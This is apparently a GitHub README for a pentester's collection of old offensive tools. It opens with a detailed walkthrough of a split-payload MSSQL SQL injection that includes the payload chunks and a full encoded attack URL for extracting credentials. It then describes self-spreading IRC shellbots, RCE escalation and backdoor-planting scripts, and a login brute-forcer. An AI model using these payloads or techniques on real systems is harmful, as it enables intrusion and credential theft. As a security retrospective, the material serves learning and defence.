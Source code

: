 ## SQLIs

### SQLIs/SQLi Split-Payload Exploit - [Link](https://github.com/gosirys/Offensive/blob/main/SQLIs/mssql-dump-splitPayload.pl)

This was coded to exploit a tricky SQL Injection vulnerability I found in one of my earliest pentest in 2011. The affected  resource had 6 vulnerable parameters, each one with a max-length enforced server-side causing all payloads being truncated after x chars.
Since it was a error-based SQLi, I could see the resulting query when it was failing due to syntax errors caused by the input truncation.
This allowed me to discover that all the parameters were ending in the same SQL query, therefore to successfully exploit the vulnerability technically I could have split each payload into smaller chunks, inject each of them in parameters based on their order of appareance in the original query, and use comments to have parts pf the original query ignored and by doing so concatenating each of the injected chunks and so rebuilding the payload.
This was done by adding a "start comment" at the end of a parameter's payload's chunk, and a "end comment" at the beginning of following parameter's injection.

An example of what the original query could have looked like (yes I lost the original report and all I have left is the exploit code which I coded 10 years ago):

```sql
SELECT x,z FROM TABLE WHERE Param1 = '$input_1' AND Param2 = '$input_2' AND Param3 = '$input_3' AND Param4 = '$input_4' AND Param5 = '$input_5' AND Param6 = '$input_6' ORDER BY x DESC
```

An example payload of interest would be to disclose sensitive columns from a specific table and database. For instance, following a prior enumeration of the targeted database's schema, one might want to obtain records of the columns `user,pass` from the table `users` of database currently in use by the application.

Such a payload could look like the following:
```sql
' union select top 1 null,convert(int,user,pass) from users_table where user,pass not in (select top 1 user,pass from users_table)--ORDER BY x DESC
```

A successful injection could then be achieved by splitting the payload in `x` chunks based on the inputs' length limitation and amount of affected parameters. In this case, 6 parameters were vulnerable, and according to the exploit I wrote it seems that all inputs had a different maximum length enforced server-side. In the specific case of this application, the payload could be split amongtst the parameters as shown below:

Param1=`' union select top 1 null,/*`
Param2=`*/convert(int,user,pass) from /*`
Param3=`*/users_table where user,pass/*`
Param4=`*/ not /*`
Param5=`*/in /*`
Param6=`*/(select top 1 user,pass from users_table)--`

The final URL would then be something like:
```
https://site.com/vuln_resource?Param1=%27%20union%20select%20top%201%20null%2C%2F%2A&Param2=%2A%2Fconvert%28int%2Cuser%2Cpass%29%20from%20%2F%2A&Param3=%2A%2Fusers_table%20where%20user%2Cpass%2F%2A&Param4=%2A%2F%20not%20%2F%2A&Param5=%2A%2Fin%20%2F%2A&Param6=%2A%2F%28select%20top%201%20user%2Cpass%20from%20users_table%29--
```

Once requested, the injected chuncks would end up in the affected SQL query, which would then become something like:
```sql
SELECT x,z FROM TABLE WHERE Param1 = '' union select top 1 null,/*' AND Param2 = '*/convert(int,user,pass) from /*' AND Param3 = '*/users_table where user,pass/*' AND Param4 = '*/ not /*' AND Param5 = '*/in /*' AND Param6 = '*/(select top 1 user,pass from users_table)--'
```

Once processed by the DBMS, in this case it was MS-SQL, the parts in between comments would be ignored making the final query to be executed the one below:

```sql
SELECT x,z FROM TABLE WHERE Param1 = '' union select top 1 null,convert(int,user,pass) from users_table where user,pass not in (select top 1 user,pass from users_table)--ORDER BY x DESC
```

The query would cause a MS-SQL error - forced by asking the DBMS to convert columns of type varchar to Int: `convert(int,user,pass)` - to be displayed on the page and disclose the username and passoword of the first user in the `users_table` table.

That is it, the rest of the logic including all queries to extract all databases, tables and columns and final dump of columns/tables of interest can be found in the exploit.

***Disclaimer***
The above explanation was written over 10 years after the vulnerability was found and its exploit written - therefore do not expect every single bit to perfectly accurate as I had to extrapolate the inner workings by re-reading my exploit code. However should be enough to give an idea of it all.
Moreover, even though SQLmap already existed at the time, I'm not quite sure it could be used to semi-automatically exploit a vulnerability of this kind - hence I had to write all this to achieve the objective.











###  SQLIs/yInjector - [Link](https://github.com/gosirys/Offensive/blob/main/SQLIs/yInjector/v1.5/yinjector.pl)
#### History
I developed this tool sometime in 2010. Having a thing for doing source code review and SQL Injections I thought I to write my own tool to help me identify and exploit this class of vulnerabilities.

#### Features
* HTTP Methods: GET/POST with support for Cookies
* DBMS: limited to MySQL
* HTTP Proxy Support
* Log File for debugging
* Main Features:
	* Automatic detection of vulnerable parameters
	* Payloads style attack: Error Based and Union Select
	* Automatic payload creation 
	* Assisted and automated database(s)* rows dump
* Advanced Exploitation modules:
	* Internal Absolute File System Path identification module - required for the RCE module
	* Local File Disclosure module by leveraging FILE privileges and MySQL `load_file` function
	* Remote Code Execution module by abusing FILE privileges MySQL `into dumpfile` function
	* MD5 Hashes assitive cracking through Online password cracking services 

#### Disclaimer
Development of this tool stopped right after I discovered how powerful SQLmap had become as right in these time it already supported several DBMS and Injection techniques (Error, Boolean Blind, Time-Based Blind, Stacked, etc).
Kudos to the guys behind [sqlmap](https://github.com/sqlmapproject/sqlmap)



## IRC-Bots

###  IRC-Bots/v6 Shellbot - [Link](https://github.com/gosirys/Offensive/blob/main/IRC-Bots/v6-IRC-Shellbot/v6.txt)
#### Some History
Around 2007-2010 Remote File Inclusion (RFI) was a widespread vulnerability, mostly affecting Web Applications written in PHP. It was around 2007 that I stumbled upon some clandestines underground IRC servers ran by questionable individuals the likes of "Mafia<something>" (can't recall his nick) - where they had IRCBots running in their channels. Those bots were coded to scan the web using dorks to find sites built with certain CMS for which there was a known vulnerability and a working PoC - and run the PoC against every search's result to hack as many sites as possible. I remember liking the colors of those bots and that some of these were sold for thousands of Euros. I then happened to find the source code of one of these bots left on a hacked server. Shortly after i started practing by modding them and ultimately ended up learning Perl to write my first bot (v5) - followed by its main successor the v6. At the time, the v6 became one of the most widely used IRC shellbots in circulation.
	
#### Main features

* Vulnerability classes supported:
	* SQL Injection
	* RFI (Remote File Inclusion)
	* LFI/LFD (Local File Inclusion/Disclosure)
	* RCE (Remote Code Execution)
* Search Engines:
	* Mass Scan, Google, AlltheWeb, Yahoo, Msn
	* TLDs: .at/.com.au/.com.br/.ca/.ch/.cn/.de/.dk/.es/.fr/.it/.co.jp/.com.mx/.co.uk
	* Bypass support: Google and Yahoo
* Advanced Features:
	* Integrated OS-shell, RCE on the box running the bot
	* Security Mode to protect "dangerous" functions (OS-Shell)
	* Spread Mode, enable/disable bot's self replication on sites vulnerable to RFI/RCE
	* Single Spread Mode, to enable its self-replication on individual sites


### IRC-Bots/v5 Shellbot - [Link](https://github.com/gosirys/Offensive/blob/main/IRC-Bots/v5-IRC-Shellbot/v5_01.txt)

This was my first ever program in Perl, which I coded discovering the source code of one of the popular bots at the time and learning how poorly it was coded. Similar in functionalities to its successor (v6 Shellbot) but with fewer features and more bugs.



## Misc

### Misc/From LFI to RCE - [Link](https://github.com/gosirys/Offensive/tree/main/Misc/LFI2RCE.pl)
This tool was coded to leverage a technique known as Log Poisoning in combination with Local FIle Inclusion vulnerabilities. By injecting PHP code in the URL query string or User-Agent, some insecured Apache configuration would store the PHP code without any sanitisation in log files. The Local File Inclusion vulnerability would then be used against a dictionary of typical paths of Apache log files. Finding the correct path of the poisoned log file would then result in Remote Code Execution.


### Misc/From SQL Injection to RCE - [Link](https://github.com/gosirys/Offensive/tree/main/Misc/SQLi2RCE.pl)
Simple script to escalate SQL Injection vulnerabilities into Remote Code Execution.
The tool worked by requesting a non-existent path on the affected site, to then use (if privileges allowed) the MySQL `load_file` function through the provided SQL Injection PoC, running through a dictionary of typical internal paths for Apache's error logs. Should the error log be found, the tool would then extract the absolute file system internal path looking for the non-esisting path initially requested. By knowing the exact internal file system path of the document root of the affected application, the tool would then try to use the MySQL `into dumpfile` function to create a PHP backdoor in the site's document root.


### Misc/Views Freaker - [Link](https://github.com/gosirys/Offensive/tree/main/Misc/views_freaker.pl)
Simple script to issues many HTTP requests to a given page through a multitude of Proxies.
Mainly used to increase the "hits/views" on websites pages.


### Misc/Remote Bruter k7 - [Link](https://github.com/gosirys/Offensive/tree/main/Misc/RemoteBruter-k7.pl)
A tool to perform login bruteforce through dictionary-based attacks against FTP, TELNET and SSH services.
Supporting parallel-processing and useable through a CLI interface or as IRC bot.
  
